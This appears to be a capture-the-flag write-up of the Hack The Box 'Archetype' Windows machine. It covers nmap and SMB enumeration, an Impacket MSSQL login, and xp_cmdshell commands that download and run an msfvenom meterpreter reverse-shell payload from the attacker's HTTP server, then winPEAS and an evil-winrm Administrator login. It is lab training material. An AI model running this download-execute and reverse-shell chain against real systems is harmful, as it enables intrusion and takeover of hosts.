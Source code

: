 **NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.95.187
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* 135/tcp   open  msrpc        Microsoft Windows RPC
* 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
* 445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
* 1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.0
* 5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  msrpc        Microsoft Windows RPC
* 49665/tcp open  msrpc        Microsoft Windows RPC
* 49666/tcp open  msrpc        Microsoft Windows RPC
* 49667/tcp open  msrpc        Microsoft Windows RPC
* 49668/tcp open  msrpc        Microsoft Windows RPC
* 49669/tcp open  msrpc        Microsoft Windows RPC

**SMB Client** to enumerate the SMB


```sh
  smbclient -N -L \\\\10.129.95.187\\
  ```

List of shares (**-L**)

No password (**-N**)

![image](https://user-images.githubusercontent.com/99097743/169720137-8d8b886d-3eb6-4862-b00f-76014203e263.png)

One of the sharenames does not have the dollar sign (**backups**) --> Non-Administrative share over SMB  


```sh
  smbclient -N //10.129.95.187/backups
  ```

**Impacket** to connect and authenticate to the MSSQL server

Impacket is a collection of Python classes for working with network protocols. Impacket packet includes **mssqlclient.py**  An MSSQL client, supporting SQL and Windows Authentications (hashes too). It also supports TLS. **It can be used in order to establish an authenticated connection to a Microsoft SQL Server**.


https://github.com/SecureAuthCorp/impacket

Impacket Installation Steps:
```sh
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket
supo python3 ./setup.py install
```

The command to connect and authenticate to the MSSQL server:
```sh
mssqlclient.py ARCHETYPE/sql_svc:{Password}@10.129.95.187 -windows-auth
```

- Please make sure to **enable xp_cmdshell** and **reconfigure**
- Need to use **xp_cmdshell** before every comments
  - xp_cmdshell dir --> Shows directory
  - xp_cmdshell "powershell -c cd C:/; pwd" --> First changes dir to C:/ then shows pwd

**Generate Reverse Shell**

We can try **msfvenom** tool to generate the payload for the reverse shell. 

![image](https://user-images.githubusercontent.com/99097743/169732063-60f5b6b4-3640-4197-92d5-8c265a02d9c7.png)

This command is important. It shows all framework payloads
```sh
msfvenom -l payloads 
```

The command to generate the payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.26 -f exe -o payload.exe
# Next Open Metasploit Framework
msfconsole
use exploit/multi/handler
show options
set payload windows/meterpreter/reverse_tcp
run
# Now our listener is active to connect to our localhost machine with VPN IP
```
![image](https://user-images.githubusercontent.com/99097743/169736888-315fe72f-fcd1-4e3f-af66-e5839c9659ed.png)

Now we need to transfer the payload (payload.exe) to the target machine

```sh
sudo python3 -m http.server 80
```

Now we go back to SQL server. 
Try to find directory with write and execute permissions 

```sh
xp_cmdshell "powershell -c cd C:/Users/Public"
# Now transfer the file
xp_cmdshell "powershell -c cd C:/Users/Public; wget http://10.10.16.26/payload.exe -o payload.exe"
# Make sure it's is downloaded
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
# Let's execute the payload
xp_cmdshell "powershell -c cd C:/Users/Public; ./payload.exe"
```

Good job! meterpreter shell is activated:

![image](https://user-images.githubusercontent.com/99097743/169738799-2cc02f1e-e5d5-4b89-91a9-37b2860fb99f.png)

```sh
getuid
#user info
```

```sh
upload winPEASx64.exe
# IMPORTANT: For the Meterpreter shell, the local working directory is the location where one started the Metasploit console.
# In this case: $upload winPEASx64.exe: takes the file from /home/kali/htb/archetype to the target machine
```

We can now run winPEAS
```sh
shell
winPEASx64.exe
```
![Screenshot 2022-05-22 231416](https://user-images.githubusercontent.com/99097743/169742009-1a9d012b-6648-44d7-8603-a9be8d8aa013.png)

Now we have access to Administrator username:password! 

We can use evil-winrm 
https://www.kali.org/tools/evil-winrm/


```sh
evil-winrm -u Administrator -p {PASSCODE} -i 10.129.95.187
```
![image](https://user-images.githubusercontent.com/99097743/169846841-1375fdb3-80e3-4749-ad4c-282cf92d3a62.png)





